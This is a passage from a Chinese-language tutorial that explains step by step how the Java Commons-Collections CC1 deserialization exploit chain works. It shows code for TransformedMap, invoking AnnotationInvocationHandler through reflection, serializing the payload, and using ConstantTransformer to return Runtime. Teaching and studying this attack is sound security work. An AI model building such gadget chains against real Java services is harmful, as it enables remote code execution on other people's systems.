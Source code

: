```plain
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name);
```

通过查找memberValue里面，先获取他的键值，对应的就是transformedmap里面对应的map，然后再用map中的key当作name查找对应memberType里面的函数名。

```plain
HashMap<Object,Object> map = new HashMap<>();//new一个map
map.put("key","value");//对map进行赋值
Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);
```

所以这里我们就要找到一个有函数名的注释类，然后将map中的key改成对应的函数名称：

[![](assets/1701612311-a09892856b5d62f7acaa403d20ec4b96.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235130-f7c98618-20cb-1.png)

```plain
HashMap<Object,Object> map = new HashMap<>();
        map.put("value","aaa");
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        Object o = annotationInvocationhdlConstructor.newInstance(Target.class,transformedmap);
        serialize(o);
        unserialize("ser.bin");
```

再进行一次调试我们就发现能够进入if语句了：

[![](assets/1701612311-e56ca55fe8d485c154e550dbab44214f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235136-fbab84d4-20cb-1.png)

#### `transform`中value设置:

我们发现setValue里面并不是我们想要传的值

[![](assets/1701612311-2a10f094c9f969a9b7e693d9f46964b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235141-fe79957a-20cb-1.png)

我们步入看一下最后value对应的什么值：

[![](assets/1701612311-3f034600c5921bc9802225ce301a9bf1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235148-02905f22-20cc-1.png)

所以这里需要修改这个值：

这里我们调用这个地方我们可以发现，不管最后transform是什么值，都会返回对应的constant值，所以我们就可以把Runtime设为这个固定值。

```plain
public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }
    public Object transform(Object input) {
        return iConstant;
    }
```
